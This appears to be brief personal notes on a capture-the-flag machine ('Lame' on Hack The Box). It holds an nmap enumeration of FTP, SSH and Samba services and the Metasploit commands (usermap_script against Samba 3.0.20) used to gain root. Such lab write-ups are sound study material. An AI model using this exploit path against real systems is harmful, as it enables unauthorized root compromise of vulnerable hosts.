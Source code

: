 ### [ENUMERATION]
    21/tcp  open  ftp         vsftpd 2.3.4
    |_ftp-anon: Anonymous FTP login allowed (FTP code 230)
    | ftp-syst: 
    |   STAT: 
    | FTP server status:
    |      Connected to 10.10.14.16
    |      Logged in as ftp
    |      TYPE: ASCII
    |      No session bandwidth limit
    |      Session timeout in seconds is 300
    |      Control connection is plain text
    |      Data connections will be plain text
    |      vsFTPd 2.3.4 - secure, fast, stable
    |_End of status
    22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
    | ssh-hostkey: 
    |   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
    |_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
    139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

    Host script results:
    |_clock-skew: mean: 2h00m26s, deviation: 2h49m45s, median: 24s
    | smb-os-discovery: 
    |   OS: Unix (Samba 3.0.20-Debian)
    |   Computer name: lame
    |   NetBIOS computer name: 
    |   Domain name: hackthebox.gr
    |   FQDN: lame.hackthebox.gr
    |_  System time: 2020-09-17T13:24:53-04:00
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    |_smb2-time: Protocol negotiation failed (SMB2)

### [ANALYSIS]
    Samba exploit???

### [EXPLOIT]
    smbclient -L 10.10.10.3 ( did not work)
    use exploit/multi/samba/usermap_script 

     set rhost 10.10.10.3

     #whoami (see we are root) 
     #look at user directory for hash
     #look at root directory for hash
